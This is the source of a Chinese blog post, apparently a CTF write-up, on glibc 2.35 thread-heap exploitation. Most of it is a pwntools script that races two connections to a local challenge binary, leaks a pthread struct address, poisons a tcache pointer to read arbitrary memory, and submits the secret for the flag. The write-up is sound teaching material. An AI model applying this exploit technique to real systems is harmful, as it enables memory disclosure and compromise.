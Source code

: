 ```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.35 thread-heap: arenas 利用手法"
author: wsxk
date: 2025-5-20
comments: true
---
```


- [0. glibc 2.35与 glibc 2.31的区别](#0-glibc-235与-glibc-231的区别)
- [1. arbitrary read](#1-arbitrary-read)
- [2. arbitrary write](#2-arbitrary-write)

`thread heap的利用手法多数都是依靠race condition来获取任意地址读写的能力，辅以一些常见的tips即可完成利用`<br>
**任意地址读写的说法其实也适用于其他的利用手法,从这个角度来思考安全问题是很有意义的**<br>
# 0. glibc 2.35与 glibc 2.31的区别<br>
最主要的区别在于移除了`free_hook`等之前非常好用的符号,已经`safe-linking`机制:<br>
参考这篇文章：[https://wsxk.github.io/safelinking/](https://wsxk.github.io/safelinking/)<br>
另外在调试glibc2.35可以发现：glibc2.35中的`tcache->key`部分也发生了修改，不再是`tcache_perthread_struct`了，而是真的随机的值.如下图所示：<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250518105647.png)
总之，`tcache->key`部分已经没有了价值，但是`tcache->next`部分非常有用。<br>

# 1. arbitrary read<br>
**利用arbitrary read可以任意读取.bss段（没有添加PIE）、Thread heap、Thread stack中的数据（前提是知道地址）**<br>
race的利用难度主要在于调试（个人理解）<br>

```python
from pwn import *
import os

#binary_path = "/challenge/babyprime_level1.1"
binary_path = './babyprime_level1.1'
p = process(binary_path)
r1 = remote("127.0.0.1",1337)
r2 = remote("127.0.0.1",1337)

idx = 0
def leak_pthread_struct_addr(r1,r2):
    global idx
    while True:
        if os.fork() == 0:
            for _ in range(100000):
                r1.sendline(b"malloc %d scanf %d AAAAAAAABBBBBBBB free %d"%(idx,idx,idx))
            os.kill(os.getpid(),9)
        for _ in range(100000):
            r2.sendline(b"printf %d" % idx)
        os.wait()
        r1.clean()
        output = r2.clean()
        try:
            result = set(output.split(b"\n"))
            print(result)
            #pause()
            leak  = next(x for x in result if ((b"\x07" in x) and len(x)>=17))
            print(leak)
            leak = u64(leak[9:17].ljust(8,b"\x00"))
            if leak & 0xff != 0:
                print("leak error, try again!!!")
                continue
            break 
        except Exception as e:
            print(f"error:{e}")
            print(f"leak pthread_struct_addr try again!!!")
    idx += 1
    return leak

def arbitrary_read(r1,r2,addr):
    global idx
    r1.clean()
    r2.clean()
    r1.sendline(b"malloc %d malloc %d free %d" %(idx,idx+1,idx+1))
    while True:
        if os.fork() == 0:
            r1.sendline(b"free %d" %(idx))
            os.kill(os.getpid(),9)
        r2.sendline((b"scanf %d "% (idx) + p64(addr)+b"BBBBBBBB\n")*2000)
        os.wait()
        r1.sendline(b"malloc %d printf %d"%(idx,idx))
        r1.recvuntil(b"MESSAGE: ")
        output = r1.recvline().strip(b"\n")
        target = p64(addr).split(b"\x00")[0]
        if output == target:
            break
    r1.sendline(b"malloc %d"%(idx+1))
    r1.clean()
    r1.sendline(b"printf %d"% (idx+1))
    r1.recvuntil(b"MESSAGE: ")
    value = u64(r1.recvline().strip(b"\n").ljust(8,b"\x00"))
    return value

# gdb.attach(p,"continue\n")
# pause()
# r1.sendline(b"malloc 1")
# r1.sendline(b"scanf 1 AAAAAAAABBBBBBBB free 1")
# r2.sendline(b"malloc 2")
# r2.sendline(b"scanf 2 CCCCCCCCDDDDDDDD free 2")
# pause()
pthread_struct_addr = leak_pthread_struct_addr(r1,r2)<< 12
log.success(f"pthread_struct_addr: {hex(pthread_struct_addr)}")
secret = arbitrary_read(r1,r2,(pthread_struct_addr>>12)^0x405460)
log.success(f"secret: {hex(secret)}")
r1.sendline(b"send_flag")
r1.recvuntil(b"Secret: ")
r1.sendline(p64(secret))
output = r1.clean()
print(output)
p.interactive()
```

# 2. arbitrary write<br>




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>